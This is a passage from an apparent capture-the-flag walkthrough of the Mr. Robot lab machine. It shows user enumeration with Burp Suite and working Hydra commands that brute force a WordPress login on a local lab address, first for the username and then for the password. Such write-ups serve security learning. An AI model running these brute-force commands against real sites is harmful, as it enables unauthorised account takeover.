 If we remove any duplicates and sort the wordlist, we could optimize the time it would take to brute force (TL;DR: shorter list, faster time to crack):

`type fsocity.dic | sort | uniq > sorted_uniq_fsocity.txt`

With that one command, we were able to reduce the word count to `11,452`. Now to get crackin'!
![word count compare](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/xwdvt43ktm5kgtzoru65.png)


#### Burp Suite

Using Burp Suite, we can configure the attack to use `fsocity.dic` as the word list parameter to brute force the username.
![Burp Suite](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/1i3eepehoeytugm8j36k.png)

Looking at the length of each response, most are pretty consistent when erroring out, but scrolling not too far down to Elliot, we see the response is `4164` instead of the usual `4114`. In the Rendered response, we see that the error message shows that the password entered for `Elliot` is incorrect, which from our [previous observation](#error-mes) about error messages us to conclude that `Elliot` is a valid user.

If we used the sorted list, it ideally would've shortened the brute force time execution. However, because it’s also sorted it could take longer to see the target response, especially if the right credential is last on the word list.

Considering how long it might take to use Burp Suite to brute force the password (since this is a Community version of Burp), we’ll move on with another tool, Hyrda.

#### Hydra

Using Hydra, we're able to brute force a valid login, when using the original `fsocity.dic` and an arbitrary password `test`:

```shell
hydra -V -L ./fsocity.dic -p test 192.168.56.103 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.56.103%2Fwp-admin%2F&testcookie=1:Invalid username"
```
![hydra username brute force](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/16y4hlrfb1cwriy9j6pb.png)

 Again, it was fairly quick since the username `Elliot` was right near the top. But if we were to used the sorted, unique version of fsocity.dic, it would've taken up to attempt `5,488` of `11,452` in order to get the username:
![hydra username results](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/fjb552pdajewzlxo0u6j.png)

After username, now we can brute force the password with username `elliot`, and here we'll use our duplicate-removed and sorted version of our wordlist `sorted_uniq_fsocity.dic`:

```shell
hydra -V -l elliot -P ./sorted_uniq_fsocity.dic 192.168.56.103 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.56.103%2Fwp-admin%2F&testcookie=1:incorrect"
```
![hydra password brute force](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/eeyq6qbzt8tmevlnd52n.png)
